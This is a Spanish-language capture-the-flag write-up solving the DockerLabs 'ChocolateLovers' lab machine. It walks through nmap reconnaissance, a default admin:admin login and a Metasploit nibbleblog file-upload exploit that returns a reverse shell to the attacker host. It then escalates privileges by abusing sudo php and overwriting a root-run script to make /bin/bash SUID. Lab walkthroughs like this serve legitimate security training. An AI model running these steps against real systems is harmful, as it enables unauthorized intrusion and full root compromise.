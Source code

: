 #MAQUINA #DOCKERLABS #MUY_FACIL 
#ABUSO_SUBIDA_ARCHIVOS
#METASPLOIT #MSFCONSOLE
<hr>

# RECONOCIMIENTO

Vamos a resolver **ChocolateLovers** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 14:02 CET
Initiating ARP Ping Scan at 14:02
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 14:02, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:02
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 14:02, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-11-25 14:02:05 CET for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 172.17.0.2 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 14:02 CET
Nmap scan report for 172.17.0.2
Host is up (0.000019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds



```

   ```bash
nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 14:03 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)

Al revisar la web que hay en el puerto 80, vemos que hay un comentario al hacer CTRL + U -> **/nibbleblog**

# EXPLOTACION

Al revisar el nibbleblog , vemos que la versión tiene un exploitable en searchsploit.

   ```bash
searchsploit nibbleblog        
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                                                              | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                                                               | php/remote/38489.rb
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Antes de enfocarnos en ello si fuese necesario, he probado a entrar como admin:
**usuario : admin**
**contraseña: admin**

Luego con **msfconsole** nos hemos otorgado una shell:

   ```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD admin
PASSWORD => admmin
msf6 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog
TARGETURI => /nibbleblog
msf6 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(multi/http/nibbleblog_file_upload) > set LHOST 172.17.0.1
LHOST => 172.17.0.1

```

# ESCALADA PRIVILEGIOS

Una vez nos hemos otorgado una shell completamente interactiva, vemos si el usuario tiene permisos SUDO:
   ```bash
www-data@29e66507ff68:/$ sudo -l
Matching Defaults entries for www-data on 29e66507ff68:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on 29e66507ff68:
    (chocolate) NOPASSWD: /usr/bin/php



```

Vemos **php** con permisos SUDO :
   ```bash
www-data@29e66507ff68:/$ sudo -u chocolate php -r "system('/bin/bash');"

```

YA ESTAMOS COMO CHOCOLATE

Vemos con **ps -ef** que root ejecuta un comando en bucle:
   ```bash
 ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 16:08 ?        00:00:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done

```

El script es nuestro, así que lo cambiamos para que bash tenga SUID
   ```bash

echo "<?php exec('chmod +s /bin/bash') ?>" >script.php 
chocolate@29e66507ff68:/opt$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
chocolate@29e66507ff68:/opt$ bash -p

```

**YA ESTAMOS COMO ROOT.**